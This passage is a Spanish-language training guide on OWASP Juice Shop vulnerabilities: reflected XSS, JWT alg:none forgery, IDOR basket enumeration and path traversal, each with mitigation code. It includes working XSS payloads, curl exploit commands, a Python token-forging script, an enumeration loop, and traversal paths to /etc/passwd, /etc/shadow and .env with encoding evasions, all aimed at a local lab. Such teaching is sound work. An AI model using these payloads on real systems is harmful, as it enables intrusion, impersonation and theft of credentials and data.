<meta http-equiv="Content-Security-Policy"
      content="default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'">
```

---

## 3. Reflected XSS

### 🎯 Qué es

Reflected XSS ocurre cuando una aplicación web **refleja** entrada maliciosa del usuario directamente en la respuesta HTTP, sin almacenarla en el servidor. El payload viaja en la petición (generalmente URL o formulario) y se refleja inmediatamente en la respuesta.

**OWASP Top 10**: A07:2021 — Cross-Site Scripting
**CWE**: CWE-79 — Improper Neutralization of Input During Web Page Generation
**MITRE ATT&CK**: T1059.007 — JavaScript

### 🔧 Cómo funciona

```
┌─────────────────────────────────────────────────────────────────┐
│                  FLUJO REFLECTED XSS                              │
│                                                                  │
│  1. Attacker crafts URL maliciosa:                               │
│     https://site.com/search?q=<script>malicious()</script>      │
│                                                                  │
│  2. Víctima hace clic en el enlace (phishing, social media)     │
│                                                                  │
│  3. Servidor recibe la petición y CONSTRUYE la respuesta:        │
│     res.send(`Resultados para: ${req.query.q}`)                 │
│     // ⚠️ req.query.q contiene el script!                        │
│                                                                  │
│  4. Servidor envía la respuesta con el payload inyectado:        │
│     <html>Resultados para: <script>malicious()</script></html>  │
│                                                                  │
│  5. Browser del usuario ejecuta el script                        │
└─────────────────────────────────────────────────────────────────┘
```

**Diferencia clave con DOM XSS**: En reflected XSS, el payload **pasa por el servidor** y se refleja en la respuesta HTML. En DOM XSS, el payload nunca sale del navegador.

### ⏰ Cuándo ocurre

- Cuando la aplicación refleja parámetros de entrada en la respuesta HTML
- Cuando NO hay output encoding/escaping
- Cuando se usa `res.send()`, `res.render()`, o templates con datos no sanitizados
- En mensajes de error, resultados de búsqueda, páginas de confirmación

### 📍 Dónde se encuentra

En Juice Shop: **Página de búsqueda de productos** y **páginas de error**

El endpoint de búsqueda (`/search`) refleja el término de búsqueda en la página de resultados sin sanitización adecuada.

### ❓ Por qué existe

**Causa raíz**: Template rendering sin escaping:

```javascript
// ❌ VULNERABLE — Express con template sin escaping
app.get('/search', (req, res) => {
  const query = req.query.q;
  // El template inserta query directamente en el HTML
  res.render('search', { searchTerm: query });
});

// En el template (Pug/EJS):
// <h1>Resultados para: <%= searchTerm %></h1>
// Si searchTerm = <script>alert(1)</script> → se ejecuta
```

### 🚀 Para qué se explota

**Impacto**: Similar al DOM XSS, pero con una diferencia operativa importante:

| Característica | Reflected XSS | DOM XSS |
|----------------|---------------|---------|
| Payload pasa por servidor | ✅ Sí | ❌ No |
| Detectable por WAF | ✅ Sí | ❌ No |
| Requiere que la víctima haga clic en link | ✅ Sí | ✅ Sí |
| Puede ser stored (persistente) | ❌ No | ❌ No |
| Logging del servidor captura payload | ✅ Sí | ❌ No |

### 🔍 Cómo buscarla

**Metodología**:

```
PASO 1: Identificar parámetros reflejados
  ├── ?q=, ?search=, ?name=, ?message=
  ├── Parámetros de formularios
  └── Headers (Referer, User-Agent)

PASO 2: Probar reflection
  ├── Enviar: ?q=UNIQUESTRING123
  ├── Ver source de la página (Ctrl+U)
  └── ¿Aparece UNIQUESTRING123 en el HTML? → Reflejado

PASO 3: Probar ejecución
  ├── Si se refleja, probar: ?q=<script>alert(1)</script>
  ├── Si no funciona, probar evasión:
  │   ├── 
  │   ├── <svg onload=alert(1)>
  │   └── </script><script>alert(1)</script> (context break)
  └── ¿Aparece el alert? → Vulnerable
```

### 💥 Cómo explotarla

**Fundamento técnico**: El servidor refleja el input del usuario en el HTML de la respuesta. Si el input contiene tags HTML/JavaScript y el servidor no los escapa, el navegador los interpreta como código legítimo.

**Explotación paso a paso**:

```bash
# Paso 1: Verificar reflection
curl "http://localhost:3000/search?q=TestXSS123" | grep "TestXSS123"
# Si aparece en el HTML → hay reflection

# Paso 2: Probar ejecución
# Navegar a:
http://localhost:3000/search?q=<script>alert(1)</script>

# Paso 3: Si el script tag es filtrado, probar alternativas
http://localhost:3000/search?q=
http://localhost:3000/search?q=<svg onload=alert(1)>

# Paso 4: Payload de cookie stealing
http://localhost:3000/search?q=
```

**¿Por qué funciona?**

```
1. El usuario visita la URL maliciosa
2. El servidor recibe: GET /search?q=<script>alert(1)</script>
3. El backend construye la respuesta:
   <html><body>Resultados para: <script>alert(1)</script></body></html>
4. El navegador del usuario recibe esta respuesta
5. Parsea el HTML y encuentra <script>
6. Ejecuta el JavaScript → alert(1) se dispara
```

```mermaid
flowchart LR
    A[Malicious URL] --> B[http://localhost:3000/#/track-result]
    B --> C[?id=<iframe src="javascript:alert('xss')">]
    C --> D[Server reflects 'id' in response]
    D --> E[Browser renders unsanitized HTML]
    E --> F[XSS executes]
    classDef url fill:#ef4444,stroke:#b91c1c,color:#fff
    classDef flow fill:#f59e0b,stroke:#b45309,color:#fff
    classDef exec fill:#10b981,stroke:#047857,color:#fff
    class A,B,C url
    class D flow
    class E,F exec
```

*Figura 7: Reflected XSS — URL maliciosa con payload en parámetro*

### 🛡️ Cómo mitigarla

**Remediación técnica específica**:

```javascript
// ✅ SEGURO — Output encoding en el template
const escapeHtml = (str) => {
  return str
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#x27;');
};

app.get('/search', (req, res) => {
  const query = escapeHtml(req.query.q);
  res.render('search', { searchTerm: query });
});

// ✅ MEJOR — Usar motor de templates con auto-escaping
// EJS: <%= query %> (auto-escapes)
// Pug: #{query} (auto-escapes)
// Handlebars: {{query}} (auto-escapes)
```

**Headers de seguridad adicionales**:

```javascript
// Content Security Policy
app.use((req, res, next) => {
  res.setHeader('Content-Security-Policy',
    "default-src 'self'; script-src 'self'; object-src 'none'");
  res.setHeader('X-Content-Type-Options', 'nosniff');
  res.setHeader('X-XSS-Protection', '1; mode=block');
  next();
});
```

---

## 4. JWT Tampering (alg:none)

### 🎯 Qué es

JWT (JSON Web Token) Tampering es la manipulación de tokens JWT para obtener acceso no autorizado. El ataque `alg:none` explota una vulnerabilidad donde el servidor acepta tokens sin firma, permitiendo que cualquier token auto-generado sea considerado válido.

**OWASP Top 10**: A02:2021 — Cryptographic Failures
**CWE**: CWE-345 — Insufficient Verification of Data Authenticity
**MITRE ATT&CK**: T1550.001 — Use Alternate Authentication Material

### 🔧 Cómo funciona

Un JWT tiene tres partes separadas por puntos:

```
┌─────────────────────────────────────────────────────────────────┐
│                    ESTRUCTURA JWT                                 │
│                                                                  │
│  eyJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoi... .SflKxwRJSMeKKF2QT4fwp... │
│  └────────┬─────────┘ └──────┬───────┘ └─────────┬──────────┘   │
│           │                  │                   │               │
│     HEADER (Base64)    PAYLOAD (Base64)    SIGNATURE (HMAC)     │
│                                                                  │
│  Header: {"alg":"HS256","typ":"JWT"}                            │
│  Payload: {"data":"admin@juice-sh.op","iat":1234567890}         │
│  Signature: HMAC-SHA256(header.payload, secret_key)             │
└─────────────────────────────────────────────────────────────────┘
```

El ataque `alg:none` funciona así:

```
1. Attacker decodifica el JWT y ve el header: {"alg":"HS256"}
2. Modifica el header a: {"alg":"none"}
3. Modifica el payload con los datos deseados (ej: email=admin)
4. Elimina la signature (o la deja vacía)
5. Envía el token modificado
6. Si el servidor acepta alg:none → TOKEN VÁLIDO SIN FIRMA
```

### ⏰ Cuándo ocurre

- Cuando el servidor acepta el algoritmo `none` como válido
- Cuando la librería JWT no valida el algoritmo esperado
- Cuando hay confusión entre `alg:none` y "sin verificación"
- Cuando el código tiene un bug que salta la verificación de firma

### 📍 Dónde se encuentra

En Juice Shop: **Sistema de autenticación** — cualquier endpoint que requiera autenticación JWT

El challenge específico requiere obtener acceso como administrador manipulando el token JWT.

### ❓ Por qué existe

**Causa raíz**: La librería JWT o la implementación del servidor acepta `alg:none` como un algoritmo válido:

```javascript
// ❌ VULNERABLE — Acepta cualquier algoritmo del token
jwt.verify(token, secret, (err, decoded) => {
  // Si el token dice alg:none, algunas librerías
  // simplemente retornan decoded sin verificar firma
  if (decoded) {
    // Token considerado válido
  }
});

// ✅ SEGURO — Forzar algoritmo específico
jwt.verify(token, secret, { algorithms: ['HS256'] }, (err, decoded) => {
  // Solo acepta HS256, ignora lo que diga el header del token
});
```

### 🚀 Para qué se explota

**Impacto**:

| Objetivo | Resultado |
|----------|-----------|
| Escalación de privilegios | Convertirse en admin sin credenciales |
| Suplantación de identidad | Actuar como cualquier usuario |
| Bypass de autenticación | Acceder sin login |
| Acceso a datos protegidos | Leer información de otros usuarios |

### 🔍 Cómo buscarla

**Metodología**:

```
PASO 1: Identificar uso de JWT
  ├── Headers: Authorization: Bearer <token>
  ├── Cookies: token=<jwt>
  └── Response bodies: {"authentication":{"token":"..."}}

PASO 2: Decodificar el token
  ├── Copiar el token
  ├── Ir a jwt.io
  ├── Pegar en "Encoded"
  └── Analizar header y payload

PASO 3: Probar alg:none
  ├── Modificar header: {"alg":"none"}
  ├── Modificar payload con datos deseados
  ├── Eliminar signature
  ├── Codificar en Base64
  └── Enviar como nuevo token
```

<div class="mermaid-diagram" style="background: #1e293b; border-radius: 12px; padding: 20px; margin: 20px 0; border: 1px solid #334155;">
<div style="color: #94a3b8; font-size: 0.85em; margin-bottom: 10px; font-family: monospace;">Figura 8: Estructura JWT</div>
<svg viewBox="0 0 600 200" xmlns="http://www.w3.org/2000/svg" style="width:100%;max-width:600px;">
<text x="300" y="20" text-anchor="middle" fill="#e2e8f0" font-size="14" font-weight="bold">JWT Token Structure</text>
<rect x="20" y="35" width="170" height="150" rx="8" fill="#1e3a5f" stroke="#3b82f6" stroke-width="2"/>
<text x="105" y="55" text-anchor="middle" fill="#93c5fd" font-size="13" font-weight="bold">Header</text>
<text x="30" y="75" fill="#e2e8f0" font-family="monospace" font-size="10">{"alg":"HS256"}</text>
<text x="30" y="92" fill="#e2e8f0" font-family="monospace" font-size="10">{"typ":"JWT"}</text>
<rect x="210" y="35" width="180" height="150" rx="8" fill="#451a03" stroke="#f59e0b" stroke-width="2"/>
<text x="300" y="55" text-anchor="middle" fill="#fcd34d" font-size="13" font-weight="bold">Payload</text>
<text x="220" y="75" fill="#e2e8f0" font-family="monospace" font-size="10">{"data":{</text>
<text x="230" y="92" fill="#e2e8f0" font-family="monospace" font-size="10">"email":"user@..."</text>
<text x="230" y="109" fill="#e2e8f0" font-family="monospace" font-size="10">"role":"customer"</text>
<text x="220" y="126" fill="#e2e8f0" font-family="monospace" font-size="10">}}</text>
<text x="220" y="148" fill="#e2e8f0" font-family="monospace" font-size="10">"iat":1234567890</text>
<text x="220" y="165" fill="#e2e8f0" font-family="monospace" font-size="10">"exp":9999999999</text>
<rect x="410" y="35" width="170" height="150" rx="8" fill="#1a3a2a" stroke="#10b981" stroke-width="2"/>
<text x="495" y="55" text-anchor="middle" fill="#6ee7b7" font-size="13" font-weight="bold">Signature</text>
<text x="420" y="80" fill="#e2e8f0" font-family="monospace" font-size="9">HMACSHA256(</text>
<text x="420" y="97" fill="#e2e8f0" font-family="monospace" font-size="9">  base64Url(header) + "." +</text>
<text x="420" y="114" fill="#e2e8f0" font-family="monospace" font-size="9">  base64Url(payload),</text>
<text x="420" y="131" fill="#e2e8f0" font-family="monospace" font-size="9">  secret</text>
<text x="420" y="148" fill="#e2e8f0" font-family="monospace" font-size="9">)</text>
<text x="195" y="110" fill="#64748b" font-size="20">.</text>
<text x="395" y="110" fill="#64748b" font-size="20">.</text>
</svg>
</div>

### 💥 Cómo explotarla

**Fundamento técnico**: JWT usa Base64Url encoding (no Base64 estándar). La diferencia es que `-` reemplaza `+` y `_` reemplaza `/`, y se elimina el padding `=`.

**Explotación paso a paso**:

```bash
# Paso 1: Obtener un token JWT válido
# Hacer login normal (o usar SQLi del challenge anterior)
curl -X POST http://localhost:3000/rest/user/login \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@juice-sh.op","password":"admin123"}'

# Respuesta: {"authentication":{"token":"eyJhbGci..."}}

# Paso 2: Decodificar el token
# Usar jwt.io o decodificar manualmente:
echo "eyJhbGciOiJIUzI1NiJ9" | base64 -d
# Resultado: {"alg":"HS256","typ":"JWT"}

echo "eyJkYXRhIjoiYWRtaW5AanVpY2Utc2gub3AifQ==" | base64 -d
# Resultado: {"data":"admin@juice-sh.op"}

# Paso 3: Crear token con alg:none
# Nuevo header:
echo -n '{"alg":"none","typ":"JWT"}' | base64 | tr '+/' '-_' | tr -d '='
# Resultado: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0

# Nuevo payload (como admin):
echo -n '{"data":"admin@juice-sh.op"}' | base64 | tr '+/' '-_' | tr -d '='
# Resultado: eyJkYXRhIjoiYWRtaW5AanVpY2Utc2gub3AifQ

# Paso 4: Construir token final
# header.payload. (sin signature, o con string vacío)
TOKEN="eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJkYXRhIjoiYWRtaW5AanVpY2Utc2gub3AifQ."

# Paso 5: Enviar el token manipulado
curl http://localhost:3000/rest/user/whoami \
  -H "Authorization: Bearer $TOKEN"

# Si el servidor acepta alg:none → devuelve datos del admin
```

**¿Por qué funciona?**

```
1. El token original usa HS256 (HMAC-SHA256)
2. El header dice: {"alg":"HS256"}
3. El atacante cambia a: {"alg":"none"}
4. El payload se modifica: {"data":"admin@juice-sh.op"}
5. La signature se elimina (vacía)
6. El servidor recibe el token modificado
7. Lee el header → alg:none → "no necesita verificar firma"
8. Acepta el payload como válido → el atacante es admin
```

**Script Python para automatizar**:

```python
#!/usr/bin/env python3
"""JWT alg:none attack — educativo"""
import base64
import json
import requests

def base64url_encode(data: bytes) -> str:
    """Base64url sin padding"""
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

# Header con alg:none
header = {"alg": "none", "typ": "JWT"}
header_b64 = base64url_encode(json.dumps(header).encode())

# Payload como admin
payload = {"data": "admin@juice-sh.op"}
payload_b64 = base64url_encode(json.dumps(payload).encode())

# Token sin signature
token = f"{header_b64}.{payload_b64}."

# Enviar request
resp = requests.get(
    "http://localhost:3000/rest/user/whoami",
    headers={"Authorization": f"Bearer {token}"}
)

print(f"Status: {resp.status_code}")
print(f"Response: {resp.json()}")
```

<div class="mermaid-diagram" style="background: #1e293b; border-radius: 12px; padding: 20px; margin: 20px 0; border: 1px solid #334155;">
<div style="color: #94a3b8; font-size: 0.85em; margin-bottom: 10px; font-family: monospace;">Figura 9: JWT alg:none — Token forjado</div>
<svg viewBox="0 0 600 260" xmlns="http://www.w3.org/2000/svg" style="width:100%;max-width:600px;">
<text x="300" y="20" text-anchor="middle" fill="#e2e8f0" font-size="14" font-weight="bold">JWT alg:none — Token Forjado</text>
<rect x="20" y="35" width="260" height="90" rx="8" fill="#1e3a5f" stroke="#3b82f6" stroke-width="2"/>
<text x="150" y="55" text-anchor="middle" fill="#93c5fd" font-size="12" font-weight="bold">Original JWT</text>
<text x="30" y="75" fill="#e2e8f0" font-family="monospace" font-size="10">Header: {"alg":"HS256","typ":"JWT"}</text>
<text x="30" y="92" fill="#e2e8f0" font-family="monospace" font-size="10">Payload: {"email":"user@...","role":"customer"}</text>
<text x="30" y="109" fill="#e2e8f0" font-family="monospace" font-size="10">Signature: HMACSHA256(...) ✓</text>
<rect x="320" y="35" width="260" height="90" rx="8" fill="#7f1d1d" stroke="#ef4444" stroke-width="2"/>
<text x="450" y="55" text-anchor="middle" fill="#fca5a5" font-size="12" font-weight="bold">Forged JWT (alg:none)</text>
<text x="330" y="75" fill="#e2e8f0" font-family="monospace" font-size="10">Header: {"alg":"none","typ":"JWT"}</text>
<text x="330" y="92" fill="#e2e8f0" font-family="monospace" font-size="10">Payload: {"email":"jwtn3d@...","role":"admin"}</text>
<text x="330" y="109" fill="#ef4444" font-family="monospace" font-size="10">Signature: (empty) ✗</text>
<rect x="120" y="145" width="360" height="50" rx="8" fill="#1a3a2a" stroke="#10b981" stroke-width="2"/>
<text x="300" y="165" text-anchor="middle" fill="#6ee7b7" font-size="12" font-weight="bold">Server Accepts Forged Token</text>
<text x="300" y="185" text-anchor="middle" fill="#e2e8f0" font-size="11">No signature verification → User impersonated as admin</text>
<rect x="120" y="210" width="360" height="35" rx="8" fill="#7f1d1d" stroke="#ef4444"/>
<text x="300" y="232" text-anchor="middle" fill="#fca5a5" font-size="11">⚠ CWE-347: Improper Verification of Cryptographic Signature</text>
</svg>
</div>

### 🛡️ Cómo mitigarla

**Remediación técnica específica**:

```javascript
// ✅ SEGURO — Forzar algoritmo específico
const jwt = require('jsonwebtoken');

function verifyToken(token) {
  return new Promise((resolve, reject) => {
    jwt.verify(token, process.env.JWT_SECRET, {
      // CRÍTICO: Solo aceptar algoritmos explícitos
      algorithms: ['HS256'],
      // Rechazar tokens sin algoritmo
      complete: true
    }, (err, decoded) => {
      if (err) reject(err);
      else resolve(decoded);
    });
  });
}

// ✅ MEJOR — Usar RS256 (asimétrico) en producción
// HS256: misma clave para firmar y verificar (simétrico)
// RS256: clave privada firma, pública verifica (asimétrico)
```

**Capas de defensa**:

| Capa | Técnica | Efectividad |
|------|---------|-------------|
| **Primaria** | Forzar `algorithms: ['HS256']` en verify | ~100% |
| **Secundaria** | Usar RS256 en lugar de HS256 | Alta |
| **Terciaria** | Validar claims (exp, iat, iss, aud) | Alta |
| **Monitoreo** | Log de tokens rechazados | Media |
| **Rotación** | Rotar secret periódicamente | Reduce ventana |

---

## 5. IDOR — View Basket

### 🎯 Qué es

IDOR (Insecure Direct Object Reference) ocurre cuando una aplicación expone referencias directas a objetos internos (IDs numéricos, nombres de archivo, keys) sin verificar que el usuario tiene autorización para acceder a ese objeto específico.

**OWASP Top 10**: A01:2021 — Broken Access Control
**CWE**: CWE-639 — Authorization Bypass Through User-Controlled Key
**MITRE ATT&CK**: T1078 — Valid Accounts

### 🔧 Cómo funciona

```
┌─────────────────────────────────────────────────────────────────┐
│                      FLUJO IDOR                                   │
│                                                                  │
│  1. Usuario legítimo tiene basket con id=5                       │
│     GET /rest/basket/5 → ✅ Autorizado (es su basket)            │
│                                                                  │
│  2. Backend verifica autenticación pero NO autorización:         │
│     if (req.user) {                                              │
│       const basket = await Basket.findByPk(req.params.id);       │
│       return res.json(basket);  // ← Sin verificar ownership!    │
│     }                                                            │
│                                                                  │
│  3. Atacante cambia el ID:                                       │
│     GET /rest/basket/1 → ✅ Devuelve basket del usuario 1        │
│     GET /rest/basket/2 → ✅ Devuelve basket del usuario 2        │
│     GET /rest/basket/3 → ✅ Devuelve basket del usuario 3        │
│                                                                  │
│  4. Atacante puede ver TODOS los baskets                         │
└─────────────────────────────────────────────────────────────────┘
```

La vulnerabilidad no es que el ID sea predecible (eso es normal). La vulnerabilidad es que **no se verifica si el usuario tiene permiso** para acceder a ese ID específico.

### ⏰ Cuándo ocurre

- Cuando la API usa IDs secuenciales o predecibles
- Cuando verifica autenticación ("¿está logueado?") pero NO autorización ("¿es suyo?")
- Cuando no hay verificación de ownership en cada request
- Cuando el control de acceso se hace solo en el frontend

### 📍 Dónde se encuentra

En Juice Shop: **API de baskets** (`/rest/basket/:id`)

Cualquier usuario autenticado puede acceder al basket de cualquier otro usuario cambiando el ID numérico en la URL.

### ❓ Por qué existe

**Causa raíz**: Falta de verificación de ownership en el endpoint:

```javascript
// ❌ VULNERABLE — Solo verifica autenticación
app.get('/rest/basket/:id', authenticate, async (req, res) => {
  const basket = await Basket.findByPk(req.params.id);
  // ← No verifica si basket.UserId === req.user.id
  res.json(basket);
});

// ✅ SEGURO — Verifica ownership
app.get('/rest/basket/:id', authenticate, async (req, res) => {
  const basket = await Basket.findOne({
    where: {
      id: req.params.id,
      UserId: req.user.id  // ← Solo devuelve si es del usuario actual
    }
  });
  if (!basket) return res.status(403).json({ error: 'Access denied' });
  res.json(basket);
});
```

### 🚀 Para qué se explota

**Impacto**:

| Objetivo | Resultado |
|----------|-----------|
| Ver carritos de otros usuarios | Productos, cantidades, precios |
| Información personal | Dirección de envío, datos de contacto |
| Patrones de compra | Qué compran otros usuarios |
| Modificar carritos | Agregar/eliminar items de otros usuarios |

### 🔍 Cómo buscarla

**Metodología**:

```
PASO 1: Identificar objetos con IDs
  ├── URLs con números: /api/users/1, /orders/42
  ├── Parámetros: ?userId=5, ?file=report.pdf
  ├── Cookies: basketId=3
  └── JWT claims: {"userId": 7}

PASO 2: Crear dos cuentas
  ├── Cuenta A: usuario normal
  ├── Cuenta B: atacante
  └── Anotar IDs de cada uno

PASO 3: Probar acceso cruzado
  ├── Con cuenta A, acceder recurso de B
  ├── Con cuenta B, acceder recurso de A
  └── ¿Devuelve datos? → IDOR confirmado

PASO 4: Enumerar IDs
  ├── Probar IDs secuenciales: 1, 2, 3, 4...
  ├── Probar IDs del JWT claim
  └── Mapear todos los objetos accesibles
```

### 💥 Cómo explotarla

**Fundamento técnico**: Los baskets en Juice Shop tienen IDs numéricos secuenciales. Un usuario autenticado puede acceder a cualquier basket simplemente cambiando el ID en la URL, porque el backend no verifica que el basket pertenezca al usuario que hace la petición.

**Explotación paso a paso**:

```bash
# Paso 1: Crear una cuenta y obtener tu basket ID
# Registrarse como usuario nuevo
curl -X POST http://localhost:3000/api/Users \
  -H "Content-Type: application/json" \
  -d '{"email":"attacker@test.com","password":"test123"}'

# Login
curl -X POST http://localhost:3000/rest/user/login \
  -H "Content-Type: application/json" \
  -d '{"email":"attacker@test.com","password":"test123"}'

# Respuesta: {"authentication":{"token":"...","bid":3}}
# bid = basket ID del atacante (ej: 3)

# Paso 2: Acceder a TU propio basket (funciona)
curl http://localhost:3000/rest/basket/3 \
  -H "Authorization: Bearer <TU_TOKEN>"

# Paso 3: Acceder al basket de OTRO usuario (IDOR!)
curl http://localhost:3000/rest/basket/1 \
  -H "Authorization: Bearer <TU_TOKEN>"

# Si devuelve datos → IDOR confirmado
# bid=1 típicamente es el basket del admin
```

**¿Por qué funciona?**

```
1. El atacante se autentica → tiene token válido
2. El endpoint verifica: ¿tiene token? → Sí → procede
3. El endpoint busca basket por ID: Basket.findByPk(1)
4. NO verifica: ¿este basket pertenece al usuario del token?
5. Devuelve el basket completo con todos los items
6. El atacante ve productos, cantidades, precios de otro usuario
```

<div class="mermaid-diagram" style="background: #1e293b; border-radius: 12px; padding: 20px; margin: 20px 0; border: 1px solid #334155;">
<div style="color: #94a3b8; font-size: 0.85em; margin-bottom: 10px; font-family: monospace;">Figura 10: IDOR — Enumeración de carritos</div>
<svg viewBox="0 0 600 220" xmlns="http://www.w3.org/2000/svg" style="width:100%;max-width:600px;">
<text x="300" y="20" text-anchor="middle" fill="#e2e8f0" font-size="14" font-weight="bold">IDOR — Enumeración de Carritos</text>
<rect x="20" y="35" width="160" height="50" rx="8" fill="#7f1d1d" stroke="#ef4444"/>
<text x="100" y="55" text-anchor="middle" fill="#fca5a5" font-size="12" font-weight="bold">Attacker</text>
<text x="100" y="72" text-anchor="middle" fill="#e2e8f0" font-family="monospace" font-size="10">GET /rest/basket/5</text>
<polygon points="180,60 260,60 255,55 260,65" fill="#94a3b8"/>
<rect x="260" y="35" width="160" height="50" rx="8" fill="#451a03" stroke="#f59e0b"/>
<text x="340" y="55" text-anchor="middle" fill="#fcd34d" font-size="12" font-weight="bold">Server</text>
<text x="340" y="72" text-anchor="middle" fill="#e2e8f0" font-size="10">Checks ownership?</text>
<polygon points="420,60 500,60 495,55 500,65" fill="#94a3b8"/>
<rect x="500" y="35" width="80" height="50" rx="8" fill="#7f1d1d" stroke="#ef4444"/>
<text x="540" y="55" text-anchor="middle" fill="#fca5a5" font-size="11">Returns</text>
<text x="540" y="72" text-anchor="middle" fill="#e2e8f0" font-size="10">basket data</text>
<rect x="20" y="105" width="560" height="40" rx="8" fill="#7f1d1d" stroke="#ef4444"/>
<text x="300" y="130" text-anchor="middle" fill="#fca5a5" font-size="12">⚠ NO ownership verification — IDOR vulnerability</text>
<rect x="20" y="160" width="560" height="50" rx="8" fill="#1e293b" stroke="#334155"/>
<text x="30" y="180" fill="#94a3b8" font-size="11">Enumeration:</text>
<text x="30" y="198" fill="#e2e8f0" font-family="monospace" font-size="10">/rest/basket/1 → 200 OK | /rest/basket/2 → 200 OK | /rest/basket/3 → 200 OK</text>
</svg>
</div>

**Enumeración sistemática**:

```bash
#!/bin/bash
# Enumerar baskets accesibles via IDOR
TOKEN="<TU_TOKEN>"

for id in $(seq 1 20); do
  echo "--- Basket $id ---"
  curl -s "http://localhost:3000/rest/basket/$id" \
    -H "Authorization: Bearer $TOKEN" | python3 -c "
import sys, json
try:
    data = json.load(sys.stdin)
    if data.get('data', {}).get('Products'):
        print(f'  ✅ Accesible - {len(data[\"data\"][\"Products\"])} items')
    else:
        print(f'  ❌ Vacío o no existe')
except:
    print(f'  ❌ Error o no accesible')
"
done
```

### 🛡️ Cómo mitigarla

**Remediación técnica específica**:

```javascript
// ✅ SEGURO — Verificar ownership en cada acceso
app.get('/rest/basket/:id', authenticate, async (req, res) => {
  const basket = await Basket.findOne({
    where: {
      id: req.params.id,
      UserId: req.user.id  // Ownership check
    },
    include: [Product]
  });

  if (!basket) {
    return res.status(403).json({
      error: 'Access denied: basket does not belong to this user'
    });
  }

  res.json(basket);
});

// ✅ MEJOR — Usar UUIDs en lugar de IDs secuenciales
// Los UUIDs no son predecibles, pero NO reemplazan la verificación de ownership
```

**Capas de defensa**:

| Capa | Técnica | Efectividad |
|------|---------|-------------|
| **Primaria** | Verificar ownership en cada endpoint | ~100% |
| **Secundaria** | Usar UUIDs en lugar de IDs secuenciales | Alta (pero no suficiente) |
| **Terciaria** | Middleware de autorización centralizado | Alta |
| **Testing** | Tests automatizados de acceso cruzado | Alta |

---

## 6. Directory Traversal — Easter Egg

### 🎯 Qué es

Directory Traversal (Path Traversal) es una vulnerabilidad que permite a un atacante acceder a archivos fuera del directorio web previsto, manipulando la ruta del archivo solicitada. Se usa la secuencia `../` para "subir" en el árbol de directorios.

**OWASP Top 10**: A01:2021 — Broken Access Control
**CWE**: CWE-22 — Improper Limitation of a Pathname to a Restricted Directory
**MITRE ATT&CK**: T1083 — File and Directory Discovery

### 🔧 Cómo funciona

```
┌─────────────────────────────────────────────────────────────────┐
│                 FLUJO DIRECTORY TRAVERSAL                         │
│                                                                  │
│  1. Aplicación sirve archivos estáticos:                         │
│     GET /ftp/<filename> → lee /app/ftp/<filename>               │
│                                                                  │
│  2. Atacante manipula la ruta:                                   │
│     GET /ftp/../../../etc/passwd                                 │
│                                                                  │
│  3. Backend resuelve la ruta:                                    │
│     /app/ftp/../../../etc/passwd                                 │
│     = /etc/passwd  ← ¡Archivo del sistema operativo!             │
│                                                                  │
│  4. Si no hay validación de path → devuelve el archivo           │
└─────────────────────────────────────────────────────────────────┘
```

La secuencia `../` significa "directorio padre" en sistemas Unix. Múltiples `../` permiten subir varios niveles:

```
/app/ftp/../../../etc/passwd
  ↑        ↑
  ftp dir  sube 3 niveles hasta /
             luego baja a etc/passwd
```

### ⏰ Cuándo ocurre

- Cuando la aplicación sirve archivos basados en input del usuario
- Cuando NO valida que la ruta resultante está dentro del directorio permitido
- Cuando NO usa `path.resolve()` + verificación de prefijo
- Cuando el web server no restringe el acceso a directorios fuera del webroot

### 📍 Dónde se encuentra

En Juice Shop: **Servidor de archivos FTP** (`/ftp/`)

El challenge específico es encontrar un "Easter Egg" — un archivo oculto que no está enlazado públicamente pero es accesible si conoces la ruta correcta.

### ❓ Por qué existe

**Causa raíz**: Servidor de archivos sin validación de path:

```javascript
// ❌ VULNERABLE — Sirve archivos sin validar path
app.get('/ftp/:file', (req, res) => {
  const filePath = path.join(__dirname, 'ftp', req.params.file);
  // ← No verifica que filePath esté dentro del directorio ftp/
  res.sendFile(filePath);
});

// ✅ SEGURO — Validar que el path está dentro del directorio permitido
app.get('/ftp/:file', (req, res) => {
  const baseDir = path.resolve(__dirname, 'ftp');
  const filePath = path.resolve(baseDir, req.params.file);

  // Verificar que el path resuelto empieza con el directorio base
  if (!filePath.startsWith(baseDir)) {
    return res.status(403).json({ error: 'Access denied' });
  }

  res.sendFile(filePath);
});
```

### 🚀 Para qué se explota

**Impacto**:

| Archivo | Información expuesta | Riesgo |
|---------|---------------------|--------|
| `/etc/passwd` | Usuarios del sistema | Alto |
| `/etc/shadow` | Hashes de contraseñas | Crítico |
| `package.json` | Dependencias y versiones | Medio |
| `.env` | Variables de entorno, secrets | Crítico |
| `config/*.json` | Configuración de la app | Alto |
| `Dockerfile` | Infraestructura | Medio |

### 🔍 Cómo buscarla

**Metodología**:

```
PASO 1: Identificar endpoints de archivos
  ├── /ftp/, /files/, /download/, /static/
  ├── Parámetros: ?file=, ?path=, ?doc=
  └── URLs con extensiones: .pdf, .txt, .json

PASO 2: Probar traversal básico
  ├── /ftp/../package.json
  ├── /ftp/../../package.json
  ├── /ftp/../../../etc/passwd
  └── /ftp/....//....//etc/passwd (evasión)

PASO 3: Probar codificaciones
  ├── URL encoding: %2e%2e%2f = ../
  ├── Double encoding: %252e%252e%252f
  ├── Unicode: ..%c0%af (UTF-8 overlong)
  └── Mixto: ..%252f

PASO 4: Enumerar archivos
  ├── Probar nombres comunes
  ├── Fuzzing con wordlists (SecLists)
  └── Analizar errores para información
```

### 💥 Cómo explotarla

**Fundamento técnico**: El servidor de archivos de Juice Shop sirve archivos del directorio `/ftp/` sin validar adecuadamente que la ruta solicitada permanece dentro de ese directorio. Al usar `../` podemos escapar del directorio ftp y acceder a archivos del sistema de archivos de la aplicación.

**Explotación paso a paso**:

```bash
# Paso 1: Verificar el directorio ftp existe
curl http://localhost:3000/ftp/
# Debería listar archivos disponibles o dar error

# Paso 2: Probar traversal básico
curl http://localhost:3000/ftp/../package.json
# Si devuelve el package.json → traversal confirmado

# Paso 3: Acceder a archivos sensibles
curl http://localhost:3000/ftp/../../package.json
curl http://localhost:3000/ftp/../../../etc/passwd

# Paso 4: Encontrar el Easter Egg
